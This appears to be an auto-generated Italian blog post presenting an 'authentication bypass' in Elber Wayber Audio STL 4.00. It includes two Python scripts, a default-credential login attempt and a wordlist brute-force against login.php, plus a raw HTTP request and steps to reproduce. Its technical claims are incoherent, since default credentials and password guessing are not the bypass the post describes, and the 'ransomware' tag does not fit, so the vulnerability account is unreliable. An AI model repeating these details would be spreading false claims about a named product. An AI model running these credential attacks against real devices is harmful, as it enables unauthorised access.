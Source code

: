 ```yaml
---
layout: post
title: '[webapps] Elber Wayber Analog/Digital Audio STL 4.00 - Authentication Bypass' 
date: 2024-08-24
categories: [security, ransomware]
---
```


**Titolo dell'articolo**: [webapps] Elber Wayber Analog/Digital Audio STL 4.00 - Bypass dell'autenticazione 

**Introduzione**

Elber Wayber Analog/Digital Audio STL 4.00 è un'applicazione web utilizzata per la trasmissione audio in modalità analogica e digitale. Recentemente è stata identificata una vulnerabilità critica in questa applicazione che consente un bypass dell'autenticazione. Questo rende possibile ad un attaccante non autorizzato accedere alle funzionalità dell'applicazione senza dover fornire credenziali valide.

**Dettagli della vulnerabilità**

L'exploit è basato su un difetto nel controllo della sicurezza dell'applicazione. Precisamente, è stato riscontrato che le versioni 4.00 e precedenti del software non eseguono un'adeguata verifica delle credenziali durante il processo di login. Di conseguenza, un attaccante può bypassare l'autenticazione ed accedere alle funzionalità dell'applicazione.

**Esempio di Payload Semplice**

Ecco un esempio di codice payload che potrebbe essere utilizzato per sfruttare la vulnerabilità:

```python
import requests

def bypass_auth(target):
    url = f"http://{target}/login.php"
    payload = {"username": "admin", "password": "admin"}
    res = requests.post(url, data=payload)
    return res.text

print(bypass_auth("192.168.1.1"))
```

Nel codice sopra, stiamo inviando un POST a `login.php` con username e password entrambi impostati come `admin`. Se l'applicazione è vulnerabile, la risposta sarà la pagina iniziale o il pannello di controllo dell'applicazione.

**Esempio di Payload Avanzato**

Un attaccante potrebbe sfruttare una vulnerabilità di questo tipo in modo più avanzato, ad esempio tentando un brute force sulla password dell'admin.

```python
import requests

def bypass_auth(target, wordlist):
    url = f"http://{target}/login.php"
    with open(wordlist, "r") as file:
        for password in file.readlines():
            password = password.strip()
            payload = {"username": "admin", "password": password}
            res = requests.post(url, data=payload)
            if "accesso negato" not in res.text.lower():
                return password
    return None

print(bypass_auth("192.168.1.1", "wordlist.txt"))
```

**Spiegazione Tecnica dello Script**

In questo caso, lo script Python tenta di autenticarsi come `admin` utilizzando una lista di password comuni, cercando di sfruttare la vulnerabilità di bypass dell'autenticazione. Se la risposta alla richiesta POST non contiene la frase "accesso negato", lo script assume che ha trovato la password corretta e la restituisce.

**Procedura per riprodurre la vulnerabilità**

Per riprodurre la vulnerabilità, un attaccante dovrebbe seguire questi passaggi:

1. Identificare un dispositivo che esegue la versione vulnerabile dell'applicazione.
2. Scrivere uno script come quelli sopra per inviare una richiesta POST alla pagina di login.
3. Monitorare la risposta per verificare se l'autenticazione è stata bypassata.

**Richiesta HTTP**

Ecco un esempio di richiesta HTTP che potrebbe essere utilizzata per sfruttare questa vulnerabilità:

```http
POST /login.php HTTP/1.1
Host: 192.168.1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

username=admin&password=admin
```

**Impatto della vulnerabilità**

L'implicazione di una tale vulnerabilità è enorme. Un bypass dell'autenticazione permette ad un attaccante di accedere a tutte le funzionalità amministrative dell'applicazione, compresi la gestione dell'audio, la configurazione del sistema e i dati dell'utente.

**Patch e Mitigazioni**

Al momento non è disponibile alcuna patch ufficiale. Tuttavia, gli amministratori possono mitigare questa vulnerabilità implementando una gestione più robusta delle credenziali, come il blocco dell'account dopo un certo numero di tentativi di login falliti e l'utilizzo di password complesse.

**Conclusione**

Questa vulnerabilità dimostra l'importanza di implementare controlli di sicurezza adeguati nelle applicazioni web. Gli amministratori di sistema e gli sviluppatori dovrebbero sempre verificare le credenziali in maniera sicura e prevedere ulteriori contromisure per prevenire attacchi di forza bruta.

**Considerazioni**

Da un punto di vista tecnico, questa vulnerabilità è un chiaro esempio di ciò che può andare storto quando non si attuano controlli di sicurezza adeguati. Per evitare problemi simili, è consigliabile implementare soluzioni di autenticazione robuste e testare regolarmente le applicazioni per identificare potenziali vulnerabilità.

